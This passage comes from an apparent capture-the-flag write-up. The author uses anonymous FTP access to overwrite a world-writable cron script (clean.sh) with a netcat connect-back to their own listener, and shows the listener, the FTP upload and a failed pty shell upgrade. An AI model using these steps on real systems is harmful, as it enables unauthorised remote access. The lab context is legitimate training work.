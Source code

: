 Yes, they really should disable anonymous login!

The **clean.sh** file looks like it just goes out there every so often and removes files from the /tmp directory. This is more than likely attached to a cron job that runs at a specified interval.

The **removed_files.log** just displays what clean.sh puts in it.

Considering **clean.sh** is running every so often and it has **rwxr-xrwx** permissions we may be able to modify the script on our own system and then upload it to the FTP server replacing the existing file.

I decide to try and have it netcat back to my home system. I run `nc -nvlp 4444` on my system to set up a listener:
```
listening on [any] 4444 ...
```
I then modify the **clean.sh** script to connect back to my system:
```
#!/bin/bash

nc <MY IP> 4444
```
And upload it back to the FTP server:
```
ftp 10.10.107.211
Connected to 10.10.107.211.
220 NamelessOne's FTP Server!
Name (10.10.107.211:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd scripts
250 Directory successfully changed.
ftp> put clean.sh
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||42895|)
150 Ok to send data.
100% |******************************************************************************************|    33        1.96 MiB/s    00:00 ETA
226 Transfer complete.
33 bytes sent in 00:00 (0.20 KiB/s)
```
It connected back to my listener almost immediately, but I was not able to get the shell to work properly and broke out of it:
```
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [10.10.107.211] 33600
whoami
python3 -c 'import pty;pty.spawn("/bin/bash")'
^C
```

<br>
